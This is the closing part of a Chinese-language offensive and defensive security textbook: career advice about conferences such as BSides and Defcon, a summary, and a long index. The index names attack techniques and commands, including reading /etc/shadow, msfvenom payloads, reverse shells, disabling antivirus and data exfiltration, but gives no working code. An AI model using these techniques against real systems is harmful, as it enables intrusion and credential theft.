认识其他具有网络安全思维的人并与之讨论、交流想法会很有帮助。有本地聚会小组、黑客空间和本地 `ISC2` 分会。找到你所在地区从事网络安全工作并对此感兴趣的人，以便与他们建立联系。虽然 `Reddit` 和 `Facebook` 确实提供了与他人协作的方式，但面对面的交流也很重要。

我绝对推荐的一件事是参加 `IT` 和网络安全会议，尤其是那些低成本或免费的会议。如果你是学生或军人，许多此类活动可能免费。`BSides` 是一个非常低成本的会议，在美国、加拿大、欧洲、澳大利亚、印度、拉丁美洲、加勒比海地区以及世界各地的其他场所举办。`BSides` 会议通常包括培训、夺旗竞赛、开锁村和许多很酷的演讲。巴尔的摩的那场（`BSides Charm`）还有一场复古电子游戏街机之夜。结识他人、协作讨论网络安全并建立你的社交网络是一个好主意。


图 10.31 `BSides` 会议链接：`http://www.securitybsides.com/w/page/12194156/FrontPage`。

当然，我们还必须提到每年在内华达州拉斯维加斯举行的年度 `Defcon` 会议。这个会议通常紧随企业气息浓厚（且费用更高）的 `Black Hat` 之后。虽然 `Defcon` 过去更便宜，但 2023 年的价格仍然低于 500 美元（以前便宜得多，我记得 2018 年支付了 280 美元现金）。曾有一段时间，他们只接受现金，尽管在 2022 年，也就是疫情后重新以线下活动形式回归时，我能够用 `PayPal` 支付。

`Defcon` 绝对会为你带来课堂和工作场所之外的绝佳学习体验。有各种不同的“村庄”，如 `Wi-Fi` 破解、汽车破解、物联网、开锁、社会工程学等（甚至还有一个火腿无线电的村庄）。还有很多竞赛、演讲和其他社交活动可以参与，如 5 公里跑、烧烤、派对等。在你的职业生涯中至少应该去一次。许多公司和机构会出资让员工去 `Defcon`（甚至 `Black Hat`），以便他们的员工能够接受培训并了解网络安全领域的一些最新趋势。`DoD` 员工也经常参加，但他们在讨论自己的工作角色和职能、背景以及可能在观众面前展示的内容方面有严格的限制。最后要提的是，当你参加会议时会收到一个很酷的 `Defcon` 徽章。这也是你可以利用黑客技能向其他与会者炫耀的东西。你可以通过以下链接获取有关 `Defcon` 会议及其所有内容的更多信息：`https://defcon.org/html/links/dc-faq/dc-faq.html`。它于八月举行，`BSides Vegas` 紧随 `Defcon`。


图 10.32 2018 年 `Defcon` 徽章。

最后，在求职面试时，确保你做好了充分的准备，掌握大量实践知识，并广泛接触 `Linux`、`Windows`、命令以及行业中常用的工具（`Wireshark`、`Metasploit`、`Kali`、`VMware` 等）。雇主和业内人士告诉我，他们不想要只知道网络安全理论的人，而是需要能完成工作所需的动手技能。在面试中，描述你的个人网络以及你设置的所有虚拟机和你正在进行的项目。谈论你参加过的 `CTF` 比赛、你研究过的 `writeup` 以及你从中复习中学到了什么。谈论你参加过的会议。对所有网络安全所能提供的东西保持热情。永远不要表现出傲慢，因为我们总会有新东西要学习，而且总有人比你懂得更多（也许就在面试中）。告诉他们（并希望这是真的），你对 `IT` 和学习新事物（例如，入侵你的 `Wii`）充满热情，周五晚上的乐趣就是如此。真正的热情将有助于你成就一份充实的网络职业生涯。


图 10.33 除夕之夜的黑客活动。

## 总结

与历史、英语、艺术甚至计算机科学相比，网络安全是一个相对较新的职业领域和学科。网络安全领域的职位空缺数量惊人，如果你觉得这类工作很有趣，那么你就处于一个绝佳的位置。网络安全是一个有点非传统的职业领域，因为那些数学或某些更传统学科（如英国文学）的学生可以成为整个领域的顶尖人才。雇主往往更感兴趣的是你的认证，以及你是否加入了网络团队、参加过哪些比赛、如何搭建家庭网络，而不是像传统学术领域那样看重你贡献了哪些研究论文。如今，任何人都可以利用大量资源开启自己的网络安全之旅。最后，也是最重要的一点：你不需要就读常春藤盟校，也不需要花费巨额资金就能获得顶级的网络安全培训。请查阅当地社区大学的课程，然后在一所对社区大学学生友好的转学大学（如 `UMGC` 或其他大学）继续深造，完成学位并进一步提高你的网络安全薪资。


# 索引

注：斜体页码表示图。

## A

- `AbuseIPDB`，52

- 访问控制列表（`ACLs`），262

- `Active Directory` 管理员，197–198

- `ActiveDirectory` 模块，191–194

- `Active Directory` 权限提升，211

  - 匿名绑定，211

  - 认证访问，216

  - `BloodHound`，218

  - 描述我的密码，211–212

  - `DNS` 解析顺序，214

  - `IPv6` 中间人攻击，215–216

  - `Kerberos` 用户枚举，212–213

  - `LLMNR`，215

  - 本地管理员访问，218

  - 多播 `DNS` 投毒，214

  - `NTLM` 中继，216

  - 密码喷洒，213–214

  - 防止多播 `DNS` 攻击，216

  - `Privilege Escalation Awesome Script Suite` (`PEASS`)，228–230

  - 提供价值，226

  - `responder` 工具，215

  - `SMB` 共享，216–217

  - 嗅探数据，218–226

  - `SYSVOL` 共享，217–218

  - 未认证访问，211

  - `WADComs` 项目，227–228

- 管理员账户

  - 停用，17

  - 缺点，274

  - 启用，9

- 删除 `Administrator` 配置文件，16

- 高级黑客技术，8–9

- 基于 `Advanced RISC Machine`（`ARM`）的操作系统，1

- `AJAX`（异步 `JavaScript` 和 `XML`），70

- 美国国家标准协会（`ANSI`），284

- 反取证，16

- 禁用杀毒软件，9–18

- `Apache` 服务器，244

- `API` 集成，27

- `atob()` 函数，71, 72

- `Atomic Red Team`，236–237

- 来自互联网的攻击，261

- `ATT&CK` 项目，235, 236

- `authorized_keys` 文件，200

- 自动样本提交，10

- `Autoruns`，269

## B

- 后门通道，125–128

  - `ngrok`，127–128, 129

  - `RITA`（实时智能威胁分析）工具，130

- `BackTrax`，7

- `base64` 命令行工具，71

- `~/bash_history` 文件，198

- 初学者通用符号指令代码（`BASIC`）程序，288

- `David J. Bianco`，100

- `BIOS` 启动菜单选项，3

- `BitLocker`，2, 8, 18, 19, 20

- `BloodHound`，226

- `bloodhound-python` 命令，218

- `Brilliant on the Basics` 项目，132–133

- 浏览器密码管理器，15

- `btoa()` 函数，71

- 漏洞赏金，158–159

- `BugCrowd`，161

- `Burp Scanner`，151

- `Burp Suite`，75–81

  - 临时项目，76

## C

- 夺旗赛（`CTFs`），145, 297–298

- `cat /etc/passwd`，189

- `cat /etc/shadow`，190

- 认证考试，282

- 道德黑客认证，284

- `ChatGPT` 助手，288

- 速查表，95–96, 237

  - 枚举可用 `HTTP` 方法，95

  - 枚举 `Vhosts`，95

  - “`fuzz faster u fool`”（`ffuf`）工具，95

- `ChurchInfo` 程序，28

- `CISA`，21

- `CloP` 勒索软件团伙，35

- 统一资源定位器客户端（`cURL`），81–82

- 云交付防护，10

- `Coinbase`，15

- 大学生网络防御竞赛（`CCDC`），271

- 命令提示符，4, 8, 252

- 入侵证据（朝鲜或中国），260–265

- `CompTIA` 认证，282

- 计算机维修，2

- “`config.php.bak`”文件，58

- `crontab.guru` 网站，203

- 反间谍，8–9

- `Countryipblocks.net`，263

- `CrackMapExec` 工具，217

- `Cron` 计划任务，202–203

- `CTFTime` 网站，150–151

- `curl m4lwhere.org`，82

- `CVE`（通用漏洞披露），151–162

  - 漏洞赏金，158–159

  - `BugCrowd`，161

  - `HackerOne`，160

  - 识别项目，152–154

  - `OpenBugBounty`，161–162

  - 平台，160

  - 范围，159–160

  - `Snyk` 插件，154–156

  - 提交，156–158

  - `Synack`，161

- 网络职业，280–303

- 网络竞赛，259

  - 团队，283

- 网络防御，241

- 网络作战，241

- 网络研究，241

- 网络安全，280, 302–303

  - 组成部分，295


## D

- 数据外泄 101，245–258
- 数据外泄，Web 服务器，254
- 数据外泄（Pwned），240–258
  - 数据泄露，242–245
- `date` 命令，187
- 默认配置，21–48
  - 评估，30–34
  - 文件，27–28
- 默认凭据，29, 32
- 默认系统托管账户（DSMA），272
- DefCon，301
- Defcon 2018 徽章，302
- Web 应用防御，49–99
- “防御黑魔法：黑客如何行事以及如何防范”，2
- 防御性应用，96–98
  - 应用补丁，97
  - 攻击自己的系统，98
  - 更改默认凭据，97
  - 暴露的凭据，97
  - 日志审查，96
  - Modsecurity，97
  - 实际案例，98
  - 技术控制措施，96–97
- 防御视角，47–48
  - 蜜罐，47–48
  - `OpenCanary`，48
- 非军事区（DMZ），114
- 加速部署，111–112
- Dirty Red Team Tricks，276, 277
- “一次性”IP 地址，101–105
  - Amazon Lightsail，102–103
  - Azure 平台，103–104
  - Digital Ocean，102
  - Heroku，104
  - Hostwinds 平台，104–105
- 文档页面，31–32
- 文档对象模型（DOM），68, 70, 98
- `domainhunter.py` 脚本，121
- Domain Hunter Python 工具，121
- 域名服务（DNS），51–55
  - 证书透明日志，55
  - `DNSDumpster`，52, 53
  - OWASP `amass` 工具，53–54
  - `subfinder` 工具，54–55
- `dynamic_chain`，115, 116
- 动态链，114
- 动态恶意软件分析，259

## E

- 轻松使用按钮，3
- EICAR 测试，124
- 电子邮件访问，15
- 启用 PowerShell 日志记录，257, 258
- 加密的 Meterpreter 流量，248
- 加密 RAT 数据外泄，250
- 增强型扁平网络攻击，293
- `/etc/group` 文件，195
- `/etc/passwd` 文件，188, 190, 198
- `/etc/shadow` 文件，188–190, 201
- `/etc/sudoers`，194, 195
- eTLD（扩展顶级域名），51
- `eval` 函数，72
- 事件日志，77
- `expireddomains.net`，121
- 漏洞利用，72–73, 164
  - 防御视角，185
- 漏洞利用数据库（Exploit-DB），164–167
- 导出和报告图标，41
- 提取 `Pwdump`，11
- `EyeWitness` 程序，29, 30

## F

- `ffuf`，84–87
- 文件读取工具，74
- 查找已知漏洞，36–47
  - Greenbone Security Assistant，37–41, 42
  - Nessus，42–47
  - Nuclei 工具集，36–37
- 扁平网络攻击，261, 293
- 强制浏览，57–59
- FTK Imager，13

## G

- `Get-ADUser` cmdlet，193
- `Get-LocalGroupMember` cmdlet，196
- `Get-LocalUser` 命令，191
- Glitchomatic 网站，31
- 目标，186–187
- `GoBuster`，82–84, 86
- “金块”，6
- Google Hacking Database（GHDB），59
- Google 密码管理器，15
- `gpedit.msc`，257
- 图形用户界面（GUI），250, 251, 266
- 图形处理器（GPU），13
- Greenbone Security Assistant/OpenVAS，37–41, 42, 46, 151
- GTFO-bins 项目，204–205

## H

- HackerOne，160
- 黑客 CTF 网站，大学排名，286
- HackTheBox（HTB），146–148, 239
- `Hashcat`，190
- `hashmob.net`，14
- 蜜罐，47–48
- `hostname` 命令，187
- HTTP 请求，80, 81

## I

- `icanhazip.com`，117
- 工业控制系统，24–25
- 安装介质，2, 3
- 基于 Intel 的 Mac，1
- 交互式 JavaScript 控制台，69
- 物联网，26–27
- 互联网协议（IP），136
- IP 摄像头，31
- `ipconfig` 命令，256

## J

- JavaScript `alert` 函数，89
- JavaScript Web Token（JWT），90, 91
- `John`（the Ripper），13
- jQuery 库，98

## K

- Kali Linux 虚拟机，189
- `kali.org` 网站，127
- 已知被利用漏洞（KEV），21

## L

- 局域网默认设置，28–34
- LAN Manager 哈希，12
- LAPS（本地管理员密码解决方案），257
- `ldapsearch` 程序，211
- LDAP 服务器，33, 34, 192, 211, 215, 226
- Linode，97
- `Linux Exploit Suggestor`，206
- Linux 机器作为立足点，237–238
- Linux 权限提升，198–206
  - 访问数据库，199
  - 认证材料，199–201
  - 人人可访问的备份，199
  - `cron` 任务，202–204
  - 漏洞利用，205–206
  - GTFO-bins 项目，204–205
  - 全局可读文件，198–199
- Living Off Trusted Sites（LOTS）项目，105–111
  - API 网关，106
  - Azure API 网关，106–111
  - `fireprox` 工具，111
- 本地用户管理器，6
- Log4J 库，97
- 逻辑链路控制（LLC），135
- `lusrmgr.msc`，6

## M

- `m4lwhere.org`，51–52, 53, 54–55, 57, 61, 63, 82, 95, 108–111, 119, 120, 128
- 恶意 Visual Basic 脚本，269
- `masscan`，56–57
- 介质访问控制（MAC），135
- Metasploit，167, 168, 246, 247, 260, 266, 267
  - 运行漏洞利用，173–174
  - 选择漏洞利用模块，168–171
  - Meterpreter，175–180
  - `msfvenom`，181–185
  - 选择载荷模块，171–173
- Metasploitable 2 漏洞，290
- Meterpreter，175–180, 247, 249, 252
  - 目录列表，245
  - 会话，144, 145
  - 分阶段与无阶段载荷，180–181
- 安全测试方法论，49–75
  - 域名服务（DNS），51–55
  - 评估潜在漏洞，65–66
  - 漏洞利用，72–73
  - 强制浏览，57–59
  - 开源情报，59–65
  - 持久化，73–74
  - 跳板，74–75
  - 端口扫描，56–57
  - 侦察，50–51
  - 武器化，66–72
- Microsoft Edge 浏览器，15
- 中大西洋大学生网络防御竞赛（MACCDC），276
- MITRE ATT&CK 框架，208, 235, 236
- MITRE 公司，153, 158
- Modbus，25, 26
- Moore, H.D.，246
- MOVEit，35–37
- `movie.ticket_booking_system_php`，153
- `msfconsole`，167, 168
- `msfvenom`，164, 181–185, 209

## N

- 国家网络联盟（NCL），149, 298, 299
- Nessus，42–47
- `net` 命令，191
- `NetExec` 工具，217
- `net localgroup administrators`，272
- `net localgroup` 命令，195
- `netstat` 命令，188, 260, 263, 265, 266, 273, 277, 290
- `net user` 命令，191
- 网络安全课程教学，282
- 网络安全技术课程，284
- 网络地址转换（NAT），294
- 网络接口卡（NIC），135
- 网络设置，31, 33
- 网络共享，256
- `New-Service` PowerShell cmdlet，207
- `ngrok` 工具，127–128, 129
- `nmap`，56, 57, 167, 204, 273
- NT 哈希，12
- `Nuclei`，36–37, 151

## O

- 混淆，100–101
  - 痛苦金字塔，100–101
- 进攻性网络行动，241
- 进攻性安全认证专家（OSCP），284–286
- 旧操作系统，7
- 在线密码破解，12, 14
- 在线Web应用安全项目（OWASP），49
- `onmicrosoft.com`，100
- `OpenCanary`，48
- 开源情报，59–65
  - Google dorking，59–60
  - 互联网档案馆，60–62
  - `Spiderfoot`，62–65
- 开放系统互连（OSI）模型，133–137
  - 应用层，137
  - 数据链路层，135–136
  - 网络层，136
  - 表示层，137
  - 会话层，137
  - 数据传输，136–137
- `OpenVAS` 参见 Greenbone Security Assistant
- 操作系统
  - 攻击与安全防护，1–20
- `org:tesla port:3389`，23
- OWASP Juice Shop，89

## P

- 回传攻击，34
- 密码文件，重置问题，8
- 密码哈希，11, 12, 13, 14, 194
- 密码，6–9, 20, 31, 33, 69, 188
- PayPal，15
- 持久化，230
  - 添加账户，230–234
  - 启动或登录初始化脚本，234
  - 外部远程服务，234
- `PersistentKeepalive`，126
- PHP代码，58, 123
- 物理攻击，防范，18–19
- PICO CTF，148–149
- 概念验证（POC），98
- 端口扫描
  - `masscan`，56–57
  - `nmap`，57
- PortSwigger，75
- 潜在漏洞，评估，65–66
- PowerShell，187, 191, 192, 196, 255, 265, 267
- 预配置的Burp Chromium浏览器，78
- 权限提升，186–239
- `Proxychains`，114–116
- 代理技术，112–121
  - 洋葱路由（TOR），116–119
  - 被动DNS和域名注册，119–121
  - `proxychains`，114–116
  - SOCKS代理，112–114
- `PublicKey`，126
- `Pwdump` 下载，10
- `PyPI.org` 网站，87, 88
- 痛苦金字塔，100–101
- Python库，87–89
- Python包索引（PyPI），87

## R

- 随机链，115
- 勒索软件部署协议，23
- 实时保护，10
- 侦察，49, 50–51, 187
- 远程访问木马（RAT），249, 252
  - 文件管理器，250
- 远程桌面连接，251
- 远程桌面协议（RDP）服务器，23, 251, 273
  - 关闭，274
- `requests-tor` 包，118
- 反向shell，164–185, 253
- `RITA`（实时智能威胁分析）工具，130

## S

- SaaS（软件即服务），52
- `/sbin/nologin`，189
- 扫描按钮，38
- 扫描模板页面，43
- 计划任务，252
- `searchsploit` 命令，165, 167
- SeBackup权限，209, 210
- `secretsdump.py` Python脚本，210
- 安全外壳（SSH）密钥，94, 276, 277, 278
- 安全外壳（SSH）服务器，273
- 保护系统安全，18–19
- 安全应用，9
- “隐匿即安全”方法，57
- `select-string`，194
- 服务器操作系统，8
- 设置组ID（SGID），201–202
- 设置用户ID（SUID），201–202
- Shodan，组织，21–27
  - API集成，27
  - 工业控制系统，24–25
  - 物联网，26–27
  - 会员与积分，27
  - 搜索与，22–24
  - 特斯拉组织，搜索，23
- Snyk插件，154–156
- SOCKS代理，112–114
- SourceForge，28
- `~/.ssh/authorized_keys` 文件，200, 201
- `ssh-copy-id` 命令，200
- `ssh-keygen` 命令，199
- 开始扫描按钮，39
- `strict_chain`，115
- 严格链，114
- `sudo` 命令，186
- `sudo -l` 命令，195
- `sudo -ll` 命令，195
- `sudo` 权限，194
- 启用SUID的`bash`二进制文件，238–239
  - 立足点之后的活动目录，238–239
  - 新的Windows服务，238
  - PowerShell入门，239
  - SSH密钥对，238
  - 易受攻击的Windows服务，238
  - 立足点之后的Windows机器，238
- `SQLmap` 请求，95
- Synack，161
- Synack红队（SRT），161
- `systemctl start apache2`，143
- `systemctl status apache2`，143

## T

- 目标检测，121–125
- 任务向导，38
- TCP，136–137
- 特斯拉公司，24
- 特斯拉组织，23
- 洋葱路由（TOR），116–119
  - 使用Python，118–119
- `ticketing-system`，152
- `TinySploit` ARM，287
- `torproject.org` 网站，117
- 传输控制协议（TCP）端口，23
- 故障排除，4, 132, 139–145, 140
  - 向他人求助，141
  - 示例，141–145
  - 了解需求，定义问题，140
  - 缩小问题范围，140
  - 研究，140–141
- 可信平台模块（TPM），18
- 可信平台模块（TPM）2.0，259
- TryHackMe（THM），145–146, 239
- TryHackMe 学习环境，296
- TryHackMe 学习路径，296
- 双因素认证（2FA），8, 14

## U

- UDP，136–137
- 通用图灵机（UTM），1
- 马里兰大学全球校区，240, 283–285, 297, 303
- 未打补丁的服务，34–36
  - MOVEit，35–36
  - WannaCry，34–35
- 更新并更改默认设置，21–48
- 美国网络运动会（USCG），149–150
- 实用程序管理器，启动，18
- `Utilman.exe`，5, 5, 17
  - 还原，17
- `Utilman.exe cmd.exe.`，3

## V

- 虚拟化软件，1
- 虚拟专用服务器（VPS），101
- 病毒和防护设置，9
- `visudo` 命令，195
- 虚拟机资源，287
- VMware
  - Fusion，1
  - 仅主机模式，291
  - 快照，289
  - VMnet适配器，291
  - vSphere，289
  - Workstation，IP子网，292
- `Volatility`，14

## W

- `WireGuard`，125–127

## X

- XSS 载荷，95–96

## Z

- `Zeek`，129–130


- WannaCry，34–35
- 武器化，66–72
- 《Web应用黑客手册：发现并利用安全漏洞》（第2版），49
- Web应用攻击，49–99
- Web应用程序，75
  - Burp Suite，75–81
  - 统一资源定位符客户端（`cURL`），81–82
  - 常见攻击，89–94
  - 跨站请求伪造（CSRF），92–93
  - 目录遍历，94
  - `ffuf`，84–87
  - `GoBuster`，82–84
  - Python库，87–89
  - 反射型XSS，89–92
  - SQL注入（SQLi），93–94
  - 存储型XSS，92
- Web登录，6
- Web安全测试指南（WSTG），49
- `wg genkey` 命令，126
- 白帽黑客，34
- `whoami`命令，187
- Windows 11操作系统，19
- Windows Defender防病毒软件，9
- windows.net eTLD，105
- Windows操作系统，1, 3–7, 20
  - 侵入，8
  - 后渗透利用，7
  - 带截图的步骤，3–7
- Windows权限提升，206–211
  - 备份操作员组，209–211
  - 空格破坏一切，208–209
  - Windows服务劫持，207
  - 写入能力，207–208
- WinHex，249
- WireGuard，125–127
- `wmic`命令，208

## X

- 施乐打印机，28
- XSS利用，67

## Z

- Zeek，129–130
- `~/zsh_history`，198
